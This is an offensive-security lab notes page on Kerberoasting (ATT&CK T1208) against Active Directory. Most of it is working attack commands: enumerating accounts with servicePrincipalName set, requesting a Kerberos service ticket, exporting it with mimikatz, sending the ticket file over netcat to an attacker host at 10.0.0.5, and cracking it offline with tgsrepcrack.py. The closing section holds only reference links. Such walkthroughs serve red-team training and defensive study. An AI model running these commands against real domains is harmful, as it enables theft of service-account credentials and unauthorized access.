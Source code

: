 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set:

![](../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker enumerating user accounts with `serverPrincipalName` set:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-enumeration.png)

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T medin -Q */*
```

![](../.gitbook/assets/kerberoast-setspn.png)

Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker brute forces the password of the service ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-cracked.png)



## Observations

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1208\",\"type\":\"link\",\"title\":\"Kerberoasting - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://github.com/nidem/kerberoast\",\"type\":\"link\",\"title\":\"nidem/kerberoast\",\"description\":\"Contribute to kerberoast development by creating an account on Github.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars3.githubusercontent.com/u/4877511?s=400&v=4\",\"width\":365,\"height\":365,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/\",\"type\":\"link\",\"title\":\"Extracting Service Account Passwords with Kerberoasting \| Insider Threat\",\"description\":\"Kerberoasting is effective for extracting service account credentials from Active Directory without needing elevated rights or causing domain traffic.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Blog2-banner-Extract-Service-Account-Passwords-Kerberoasting1024x326.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://blog.xpnsec.com/kerberos-attacks-part-1/\",\"type\":\"link\",\"title\":\"Kerberos AD Attacks - Kerberoasting\",\"description\":\"Recently I\'ve been trying to make sure that my redteam knowledge is up to date, exploring many of the advancements in Active Directory Kerberos attacks... and there have been quite a few! I finally found some free time this week to roll up my sleeves and dig into the internals\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.xpnsec.com/assets/favicon/android-icon-192x192.png?v=94d6be4395\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.xpnsec.com/content/images/2017/09/cerberos-1.jpg\",\"width\":615,\"height\":539,\"aspectRatio\":0.8764227642276423}}" %}

